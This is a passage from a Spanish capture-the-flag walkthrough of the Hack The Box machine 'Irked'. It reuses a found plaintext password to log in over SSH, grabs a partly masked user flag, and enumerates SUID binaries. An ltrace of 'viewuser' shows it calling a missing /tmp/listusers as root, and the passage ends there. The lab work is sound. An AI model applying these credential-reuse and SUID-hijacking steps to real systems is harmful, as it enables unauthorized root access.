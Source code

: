 ```bash
# cat pass.txt                                                                                                                                     5 ⚙
Kab6h+m+bbp2J:HG
```
Parece la password del usuario `jmardov` probamos a conectarnos por ssh
```bash
# ssh djmardov@10.10.10.117                                                                                                                        5 ⚙
djmardov@10.10.10.117's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue May 15 08:56:32 2018 from 10.33.3.3
djmardov@irked:~$ 
```
Pillamos la primera flag.txt
```bash
djmardov@irked:~/Documents$ cat user.txt 
4a66a78b12dc0e661a59xxxxxxxx
```
Enumeramos el sistema
```bash
# Find / -perm -4000 -type f 2>/dev/null
/usr/bin/viewuser
```` 
Encontramos este binario personalizado nos lo descargamos a nuestra maquina para hacerle un `ltrace` para ver que esta haciendo
```bash
# ltrace ./viewuser     
__libc_start_main(0x5659e57d, 1, 0xfff934f4, 0x5659e600 <unfinished ...>
puts("This application is being devleo"...This application is being devleoped to set and test user permissions
)                                                   = 69
puts("It is still being actively devel"...It is still being actively developed
)                                                   = 37
system("who"pro      tty7         2021-08-05 09:37 (:0)
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                        = 0
setuid(0)                                                                                     = 0
system("/tmp/listusers"sh: 1: /tmp/listusers: not found
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                        = 32512
+++ exited (status 0) +++
```
